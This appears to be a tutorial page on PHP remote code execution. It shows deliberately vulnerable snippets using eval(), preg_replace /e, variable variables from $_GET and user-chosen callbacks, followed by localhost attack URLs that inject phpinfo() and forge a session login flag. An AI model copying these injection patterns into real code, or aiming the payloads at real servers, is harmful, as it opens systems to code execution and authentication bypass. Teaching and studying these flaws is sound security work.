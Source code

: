 ####Vulnerable Codes
#####Evaluating eval()
eval.php
```php
<?php
$title = $_GET['title'];
eval('echo Welcome '.$title.';');
// assert() also vulnerable
?>
```
#####Regular Expression
to_upper.php
```php
<?php
$string = $_GET['string'];
print preg_replace('/^(.*)/e', 'strtoupper(\\1)', $string);
?>
```
#####Dynamic Variables
```php
<?php
foreach ($_GET as $key => $value) {
	$$key = $value;
}
//extract($_GET);
//parse_str($_GET);

function isLoggedIn(){
	return $_SESSION['isLoggedIn'];
}
if (isLoggedIn()) {
	echo "You are logged in :)";
}
else{
	echo "you are not logged in :(";
	die();
}
?>
```
#####Dynamic Functions
callback.php
```php
<?php
$callback = $_GET['callback'];
$arguments = $_GET['arguments'];
function callback($args){
	echo 'function called with arguments';
}
$callback($arguments);
//$func = new ReflectionFunction($callback); $func->invoke($arguments); also same
// create_function also vulnerable // create_function('$foobar', "echo $foobar;");
?>
```
####Attack
- http://localhost/rce/to_upper.php?string=phpinfo()
- http://localhost/rce/display_title.php?title=vinoth;phpinfo();
- http://localhost/rce/user.php?_SESSION[isLoggedIn]=true
- http://localhost/rce/callback.php?callback=phpinfo&arguments=1
